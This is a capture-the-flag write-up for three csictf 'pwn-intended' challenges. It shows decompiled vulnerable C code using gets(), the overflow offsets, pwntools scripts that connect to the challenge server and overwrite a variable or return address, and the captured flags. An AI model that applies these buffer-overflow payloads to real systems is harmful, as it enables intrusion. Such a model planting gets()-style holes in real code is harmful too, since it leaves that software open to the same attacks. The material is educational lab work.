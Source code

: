 # PWN

## pwn-intended-0x1

nc chall.csivit.com 30001

**FLAG : csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}**

I Reversed the file with ghidra .

```c
undefined8 main(void)

{
  char local_38 [44];
  int local_c;

  local_c = 0;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Please pour me some coffee:");
  gets(local_38);
  puts("\nThanks!\n");
  if (local_c != 0) {
    puts("Oh no, you spilled some coffee on the floor! Use the flag to clean it.");
    system("cat flag.txt");
  }
  return 0;
}

```
we just have to overwrite anything after 44 bytes to get the flag.

![](img/pwn11.png)

## pwn-intended-0x2

nc chall.csivit.com 30007

### FLAG : csictf{c4n_y0u_re4lly_telep0rt?}

I Reversed the code with ghidra

```c

undefined8 main(void)

{
  char local_38 [44];
  int local_c;

  local_c = 0;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to csictf! Where are you headed?");
  gets(local_38);
  puts("Safe Journey!");
  if (local_c == -0x35014542) {
    puts("You\'ve reached your destination, here\'s a flag!");
    system("/bin/cat flag.txt");
  }
  return 0;
}
```
![](img/pwn21.png)

local_c is checked for a hex value of 0xcafebabe.
so we just have to write 0xcafebabe after 44 bytes.

```py
#!/usr/bin/env python3

import pwn

r = pwn.remote('chall.csivit.com', 30007)

payload = "A"*44 + '\xbe\xba\xfe\xca'

r.sendline(payload)
r.interactive()
```
![](img/pwn22.png)

## pwn-intended-0x3

nc chall.csivit.com 30013

### FLAG : csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}

Reversed the code with ghidra

got a **main()** and **flag()** function

```c

undefined8 main(void)

{
  char local_28 [32];

  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to csictf! Time to teleport again.");
  gets(local_28);
  return 0;
}

```

```c

void flag(void)

{
  puts("Well, that was quick. Here\'s your flag:");
  system("cat flag.txt");
                    /* WARNING: Subroutine does not return */
  exit(0);
}

```

we just have to write the address of the flag function after
32+8 bytes..

```
root@kali:~/ctf/csictf/pwn# echo info functions | gdb ./pwn-intended-0x3 | grep flag
0x00000000004011ce  flag
root@kali:~/ctf/csictf/pwn#
```

```py
>>> import pwn
>>> pwn.p64(0x00000000004011ce)
b'\xce\x11@\x00\x00\x00\x00\x00'
>>>
```

i just wrote a simple script to get the flag
```py
#!/usr/bin/env python3

import pwn

r = pwn.remote('chall.csivit.com', 30013)

payload = "A"*40 + '\xce\x11@\x00\x00\x00\x00\x00'

r.sendline(payload)
r.interactive()
```
![](img/pwn3.png)
